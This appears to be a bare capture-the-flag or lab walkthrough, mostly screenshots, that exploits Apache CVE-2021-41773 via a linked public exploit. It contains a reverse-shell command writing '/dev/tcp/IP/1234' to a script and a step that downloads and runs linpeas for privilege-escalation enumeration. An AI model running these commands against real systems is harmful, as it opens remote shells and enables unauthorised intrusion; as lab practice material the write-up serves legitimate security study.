 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)

```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
bash linpeas.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f187bf2-4316-4949-bdcf-8902ed0246b3)





